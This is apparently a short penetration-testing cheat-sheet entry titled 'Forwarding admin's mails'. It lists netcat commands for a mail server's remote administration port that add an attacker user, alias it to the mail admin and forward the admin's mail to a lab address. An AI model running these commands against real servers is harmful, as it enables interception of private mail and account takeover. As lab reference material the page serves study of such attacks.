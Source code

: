 # ⭕ RSIP

### Forwarding admin’s mails <a href="#forwarding-admin-s-mails" id="forwarding-admin-s-mails"></a>

```bash
# Connection through netcat (can test for creds)
nc -nv <IP> 4555

# Get commands
HELP

# Get users (hopefully an admin?)
listusers

# Add user
adduser haax haaxpass

# Set an alias for our user
setalias mailadmin haax

# Set mail forwarding
setforwarding mailadmin haax@lab.local
```

